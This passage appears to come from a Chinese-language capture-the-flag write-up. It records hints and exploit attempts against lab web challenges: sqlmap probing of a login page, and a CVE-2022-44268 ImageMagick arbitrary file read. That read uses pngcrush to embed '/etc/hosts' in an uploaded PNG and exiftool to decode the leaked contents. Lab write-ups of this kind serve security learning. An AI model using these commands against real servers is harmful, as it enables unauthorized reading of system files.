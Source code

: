 [提示四]
原始碼裡有特定Url，搭配Cookie的token key解開API

[提示五]
打開API後需要用什麼Decode
#### Exploit
1. 通靈登入介面
2. sqlmap直接打，有打出time based的部分，就卡住了
3. 另外一組的jin也是卡在這邊
### Q7
#### 題目敘述
>透過情報收集，發現此網頁有上傳檔案服務的一個頁面，是一個免費的開源跨平台軟件套件，發現此版本可能有漏洞可利用。
此測試機存在一個上傳圖片的服務，且它存在著某個漏洞，讓你有機會可以進行攻擊，拿到內部存在的資料
>
>[連線IP/連結資訊]
>192.168.100.83
>
>[備註]
>答題系統Flag輸入格式：CSC{FLAG_最多長度25可包含數字、英文大小寫、特殊字元及底線}

#### Hint
[提示一]
網頁服務使用了什麼圖片編輯工具?檢視原始碼有重要訊息!

[提示二]
網頁弱點為ImageMagick 任意文件讀取

[提示三]
請上傳圖片得到必要訊息

[提示四]
下載上傳後的圖片分析內容
#### Exploit
1. 先掃port: nmap->8080
2. 確認目前的開源工具為ImageMagick
3. 搜尋一下ImageMagick的Vulnerability->CVE-2022-44268
4. 用[現成工具](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC)
```bash
$ sudo apt-get install pngcrush exiftool exiv2 -y
$ pngcrush -text a "profile" "/etc/hosts" abc.png
$ exiv2 -pS pngout.png
```
上傳到系統，如果該檔案存在就會回傳一張圖片到前端供我們下載，之後就可以用exiftool分析
```bash
$ exiftool return.png
...
Raw Profile Type                : ..      13.6539323739343234366663300a.
...
$ python -c "print(bytes.fromhex('6539323739343234366663300a').decode('utf-8'))"
e92794246fc0
```
目前不知道具體flag的位置和檔案名稱
